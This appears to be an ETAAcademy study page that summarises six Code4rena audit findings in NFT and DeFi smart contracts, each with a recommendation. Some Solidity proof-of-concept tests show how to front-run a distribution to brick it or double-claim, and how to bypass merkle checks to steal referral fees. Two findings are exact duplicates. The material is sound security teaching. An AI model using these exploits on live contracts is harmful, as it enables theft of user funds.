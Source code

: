# ETAAcademy-Adudit: 5. NFT

<table>
  <tr>
    <th>title</th>
    <th>tags</th>
  </tr>
  <tr>
    <td>05. NFT</td>
    <td>
      <table>
        <tr>
          <th>audit</th>
          <th>basic</th>
          <th>DeFi</th>
          <td>NFT</td>
        </tr>
      </table>
    </td>
  </tr>
</table>

[Github](https://github.com/ETAAcademy)｜[Twitter](https://twitter.com/ETAAcademy)｜[ETA-Audit](https://github.com/ETAAcademy/ETAAcademy-Audit)

Authors: [Evta](https://twitter.com/pwhattie), looking forward to your joining

## 1.[Medium] Distribution can be bricked, and double claims by a few holders are possible when owner calls LiquidInfrastructureERC20::setDistributableERC20s

### Double claiming and bricking distribution

- Summary: Adding a new token can trigger reverts during distribution due to changes in array lengths, while attackers can front-run distribution, resulting in out-of-bounds reverts. Additionally, holders can exploit front-running to distribute rewards and back-run to claim rewards, leading to double claiming and losses for other holders.

- Impact & Recommendation: Removing tokens can cause a loss of token balance until re-added by the owner. To mitigate these risks, it's essential to validate **`setDistributableERC20s`** to prevent changes before distributions occur.
  <br> 🐬: [Source](https://code4rena.com/reports/2024-02-althea-liquid-infrastructure#m-03--distribution-can-be-bricked-and-double-claims-by-a-few-holders-are-possible-when-owner-calls-liquidinfrastructureerc20setdistributableerc20s) & [Report](https://code4rena.com/reports/2024-02-althea-liquid-infrastructure)

  <details><summary>POC</summary>

  ```solidity
    // SPDX-License-Identifier: UNLICENSED
    pragma solidity 0.8.12;
    import {Test, console2} from "forge-std/Test.sol";
    import {LiquidInfrastructureERC20} from "../contracts/LiquidInfrastructureERC20.sol";
    import {LiquidInfrastructureNFT} from "../contracts/LiquidInfrastructureNFT.sol";
    import "@openzeppelin/contracts/token/ERC20/ERC20.sol";
    contract AltheaTest is Test {
        function setUp() public {}
        function test_POC() public {
            // setup
            LiquidInfrastructureNFT nft = new LiquidInfrastructureNFT("LP");
            address[] memory newErc20s = new address[](1);
            uint256[] memory newAmounts = new uint[](1);

            ERC20 DAI = new ERC20("DAI", "DAI");
            ERC20 USDC = new ERC20("USDC", "USDC");
            string memory _name = "LP";
            string memory _symbol = "LP";
            uint256 _minDistributionPeriod = 5;
            address[] memory _managedNFTs = new address[](1);
            address[] memory _approvedHolders = new address[](2);
            address[] memory _distributableErc20s = new address[](1);
            _managedNFTs[0] = address(nft);
            _approvedHolders[0] = address(1);
            _approvedHolders[1] = address(2);
            _distributableErc20s[0] = address(DAI);
            newErc20s[0] = address(DAI);
            nft.setThresholds(newErc20s, newAmounts);
            LiquidInfrastructureERC20 erc = new  LiquidInfrastructureERC20(
                _name, _symbol, _managedNFTs, _approvedHolders, _minDistributionPeriod, _distributableErc20s);
            erc.mint(address(1), 100e18);
            erc.mint(address(2), 100e18);
            // issue ==  change in desirable erc20s
            _distributableErc20s = new address[](2);
            _distributableErc20s[0] = address(DAI);
            _distributableErc20s[1] = address(USDC);
            newAmounts = new uint[](2);
            newErc20s = new address[](2);
            newErc20s[0] = address(DAI);
            newErc20s[1] = address(USDC);
            nft.setThresholds(newErc20s, newAmounts);
            deal(address(DAI), address(erc), 1000e18);
            deal(address(USDC), address(erc), 1000e18);
            vm.roll(block.number + 100);
            // frontrun tx
            erc.distribute(1);
            // victim tx
            erc.setDistributableERC20s(_distributableErc20s);
            // backrun tx
            vm.roll(block.number + _minDistributionPeriod);
            vm.expectRevert(); // Index out of bounds
            erc.distribute(1);
        }
    }

  ```

  </details>

## 2.[High] Function refinanceFromLoanExecutionData() does not check executionData.tokenId == loan.nftCollateralTokenId

### Check tokenId

- The `refinanceFromLoanExecutionData()` function in the contract allows borrowers to refinance their loans using new offers without transferring the NFT collateral out of the protocol. However, this function does not check if the `executionData.tokenId` matches the `loan.nftCollateralTokenId`, potentially leading to a situation where the new loan has a collateral NFT that does not match what the lender requested in their offers.

- Impact & Recommendation: Add a check to ensure `executionData.tokenId` is equal to `loan.nftCollateralTokenId`.
  <br> 🐬: [Source](<https://code4rena.com/reports/2024-04-gondi#h-04-Function-refinanceFromLoanExecutionData()-does-not-check-executionData.tokenId-==-loan.nftCollateralTokenId>) & [Report](https://code4rena.com/reports/2024-04-gondi)

<details><summary>POC</summary>

```solidity

  function _processOffersFromExecutionData(
    address _borrower,
    address _principalReceiver,
    address _principalAddress,
    address _nftCollateralAddress,
    uint256 _tokenId,
    uint256 _duration,
    OfferExecution[] calldata _offerExecution
) private returns (uint256, uint256[] memory, Loan memory, uint256) {
  ...
  _validateOfferExecution(
      thisOfferExecution,
      _tokenId,
      offer.lender,
      offer.lender,
      thisOfferExecution.lenderOfferSignature,
      protocolFee.fraction,
      totalAmount
  );
  ...
}

function _checkValidators(LoanOffer calldata _loanOffer, uint256 _tokenId) private {
    uint256 offerTokenId = _loanOffer.nftCollateralTokenId;
    if (_loanOffer.nftCollateralTokenId != 0) {
        if (offerTokenId != _tokenId) {
            revert InvalidCollateralIdError();
        }
    } else {
        uint256 totalValidators = _loanOffer.validators.length;
        if (totalValidators == 0 && _tokenId != 0) {
            revert InvalidCollateralIdError();
        } else if ((totalValidators == 1) && (_loanOffer.validators[0].validator == address(0))) {
            return;
        }
        for (uint256 i = 0; i < totalValidators;) {
            IBaseLoan.OfferValidator memory thisValidator = _loanOffer.validators[i];
            IOfferValidator(thisValidator.validator).validateOffer(_loanOffer, _tokenId, thisValidator.arguments);
            unchecked {
                ++i;
            }
        }
    }
}

```

</details>

## 3.[High] Function refinanceFromLoanExecutionData() does not check executionData.tokenId == loan.nftCollateralTokenId

### Check tokenId

- Summary: The `refinanceFromLoanExecutionData()` function in the contract allows borrowers to refinance their loans using new offers without transferring the NFT collateral out of the protocol. However, this function does not check if the `executionData.tokenId` matches the `loan.nftCollateralTokenId`, potentially leading to a situation where the new loan has a collateral NFT that does not match what the lender requested in their offers.

- Impact & Recommendation: Add a check to ensure `executionData.tokenId` is equal to `loan.nftCollateralTokenId`.
  <br> 🐬: [Source](<https://code4rena.com/reports/2024-04-gondi#h-04-Function-refinanceFromLoanExecutionData()-does-not-check-executionData.tokenId-==-loan.nftCollateralTokenId>) & [Report](https://code4rena.com/reports/2024-04-gondi)

<details><summary>POC</summary>

```solidity
function _processOffersFromExecutionData(
    address _borrower,
    address _principalReceiver,
    address _principalAddress,
    address _nftCollateralAddress,
    uint256 _tokenId,
    uint256 _duration,
    OfferExecution[] calldata _offerExecution
) private returns (uint256, uint256[] memory, Loan memory, uint256) {
  ...
  _validateOfferExecution(
      thisOfferExecution,
      _tokenId,
      offer.lender,
      offer.lender,
      thisOfferExecution.lenderOfferSignature,
      protocolFee.fraction,
      totalAmount
  );
  ...
}


function _checkValidators(LoanOffer calldata _loanOffer, uint256 _tokenId) private {
    uint256 offerTokenId = _loanOffer.nftCollateralTokenId;
    if (_loanOffer.nftCollateralTokenId != 0) {
        if (offerTokenId != _tokenId) {
            revert InvalidCollateralIdError();
        }
    } else {
        uint256 totalValidators = _loanOffer.validators.length;
        if (totalValidators == 0 && _tokenId != 0) {
            revert InvalidCollateralIdError();
        } else if ((totalValidators == 1) && (_loanOffer.validators[0].validator == address(0))) {
            return;
        }
        for (uint256 i = 0; i < totalValidators;) {
            IBaseLoan.OfferValidator memory thisValidator = _loanOffer.validators[i];
            IOfferValidator(thisValidator.validator).validateOffer(_loanOffer, _tokenId, thisValidator.arguments);
            unchecked {
                ++i;
            }
        }
    }
}

```

</details>

## 4.[High] update_emergency_council_7_D_0_C_1_C_58() updates nft manager instead of emergency council

### Updates emergency council

- Summary: The function `update_emergency_council_7_D_0_C_1_C_58()` in Seawater's `lib.rs` file, intended to update the emergency council responsible for managing protocol shutdowns, mistakenly updates the `nft_manager` instead. This error prevents the proper updating of the emergency council, which could hinder the protocol's ability to respond to emergency situations, compromising its security and stability.

- Impact & Recommendation: The solution is to replace `self.nft_manager.set(manager)` with `self.emergency_council.set(manager)` to ensure the function performs its intended role.
  <br> 🐬: [Source](https://code4rena.com/reports/2024-08-superposition#h-01-update_emergency_council_7_d_0_c_1_c_58-updates-nft-manager-instead-of-emergency-council) & [Report](https://code4rena.com/reports/2024-08-superposition)

<details><summary>POC</summary>

```rust

  pub fn update_emergency_council_7_D_0_C_1_C_58(
            &mut self,
            manager: Address,
        ) -> Result<(), Revert> {
            assert_eq_or!(
                msg::sender(),
                self.seawater_admin.get(),
                Error::SeawaterAdminOnly
            );
            self.nft_manager.set(manager);
            Ok(())
        }

  pub fn update_nft_manager_9_B_D_F_41_F_6(&mut self, manager: Address) -> Result<(), Revert> {
        assert_eq_or!(
            msg::sender(),
            self.seawater_admin.get(),
            Error::SeawaterAdminOnly
        );
        self.nft_manager.set(manager);
        Ok(())
    }

```

</details>

## 5.[Medium] Lack of data validation when users are claiming their art allows malicious user to bypass signature/merkle hash to provide unapproved ref*, artId* and imageURI

### Bypass signature/merkle hash

- Summary: The `merkleClaim` function lacks validation for user-submitted parameters, specifically the referrer address (`ref_`), art ID (`artId_`), and image URI (`imageURI`). This vulnerability allows malicious users to bypass signature and Merkle hash checks, leading to significant security risks. Attackers can illegitimately modify `ref_` to steal referral fees, use inappropriate `artId_` to claim unauthorized art, and set invalid `imageURI` that points to unrelated artworks.

- Impact & Recommendation: It is recommended to implement checks on these parameters within the `merkleClaim` function to enhance contract security and user experience.
  <br> 🐬: [Source](https://code4rena.com/reports/2024-08-phi#m-05-lack-of-data-validation-when-users-are-claiming-their-art-allows-malicious-user-to-bypass-signaturemerkle-hash-to-provide-unapproved-ref_-artid_-and-imageuri) & [Report](https://code4rena.com/reports/2024-08-phi)

<details><summary>POC</summary>

```solidity
function test_claimHack() public {
  bytes32 expectedRoot = 0xe70e719557c28ce2f2f3545d64c633728d70fbcfe6ae3db5fa01420573e0f34b;
  bytes memory credData = abi.encode(1, owner, "MERKLE", 31_337, expectedRoot);
  bytes memory signCreateData = abi.encode(expiresIn, ART_ID_URL_STRING, credData);
  bytes32 createMsgHash = keccak256(signCreateData);
  bytes32 createDigest = ECDSA.toEthSignedMessageHash(createMsgHash);
  (uint8 cv, bytes32 cr, bytes32 cs) = vm.sign(claimSignerPrivateKey, createDigest);
  if (cv != 27) cs = cs | bytes32(uint256(1) << 255);
  phiFactory.createArt{ value: NFT_ART_CREATE_FEE }(
      signCreateData,
      abi.encodePacked(cr, cs),
      IPhiFactory.CreateConfig(participant, receiver, END_TIME, START_TIME, MAX_SUPPLY, MINT_FEE, false)
  );
  address Alice = participant; //Original file setup already deals `participant` enough ether to pay for mint fees
  address Alice_2 = address(0x123456); //Alice's account 2
  vm.startPrank(Alice);
  bytes32[] memory proof = new bytes32[](2);
  proof[0] = 0x0927f012522ebd33191e00fe62c11db25288016345e12e6b63709bb618d777d4;
  proof[1] = 0xdd05ddd79adc5569806124d3c5d8151b75bc81032a0ea21d4cd74fd964947bf5;
  address to = 0x1111111111111111111111111111111111111111;
  bytes32 value = 0x0000000000000000000000000000000003c2f7086aed236c807a1b5000000000;
  uint256 artId = 1;
  bytes memory data = abi.encode(artId, to, proof, Alice_2, uint256(1), value, IMAGE_URL2); // Within this line we have the freedom to decide artId, address of referral and the image URL
  bytes memory dataCompressed = LibZip.cdCompress(data);
  uint256 totalMintFee = phiFactory.getArtMintFee(artId, 1);
  phiFactory.claim{ value: totalMintFee }(dataCompressed);
  (, bytes memory response) = phiFactory.phiRewardsAddress().call(abi.encodeWithSignature("balanceOf(address)", Alice_2));
  uint256 balance = abi.decode(response, (uint256));
  console2.log("Alice_2: ", balance); //Alice successfully illegally receives referral fee through her second account
  vm.stopPrank();
}

```

</details>

## 6.[High] Attakers can steal the funds from long-term reservation

### long-term reservation

- Summary: Insufficient permission checks and rental fund management allows attackers to exploit setbidtobuy() and withdrawtolandlord() to steal funds from the protocol. Enhancing permission validation and restricting the auto-approve feature can effectively mitigate this issue and secure the protocol’s funds.

- Impact & Recommendation: Attackers can steal funds from the long-term reservation pool without incurring any losses, posing a severe threat to the protocol’s financial security. It is recommended to update the validation logic to use check\*can_approve instead of check_can_send to ensure that only authorized users can withdraw funds and restrict auto-Approve functionality.
  <br> 🐬: [Source](https://code4rena.com/reports/2024-10-coded-estate#h-01-attakers-can-steal-the-funds-from-long-term-reservation) & [Report](https://code4rena.com/reports/2024-10-coded-estate)

<details><summary>POC</summary>

```rust

File: execute.rs#setbidtobuy()


675:             if token.sell.auto_approve {

676:                 // update the approval list (remove any for the same spender before adding)

677:                 let expires = Expiration::Never {  };

678:                 token.approvals.retain(|apr| apr.spender != info.sender);

679:                 let approval = Approval {

680:                     spender: info.sender.clone(),

681:                     expires,

682:                 };

683:                 token.approvals.push(approval);

684:

685:             }

File: execute.rs


1787:     pub fn withdrawtolandlord(

/**CODE**/

1796:         address:String

1797:     ) -> Result<Response<C>, ContractError> {

/**CODE**/

1848:             .add_message(BankMsg::Send {

1849:                 to_address: address,

1850:                 amount: vec![Coin {

1851:                     denom: token.longterm_rental.denom,

1852:                     amount: Uint128::from(amount) - Uint128::new((u128::from(amount) * u128::from(fee_percentage)) / 10000),

File: execute.rs#withdrawtolandlord()


1832:                 if item.deposit_amount - Uint128::from(token.longterm_rental.price_per_month) < Uint128::from(amount)  {

1833:                     return Err(ContractError::UnavailableAmount {  });

1834:                 }

```

</details>
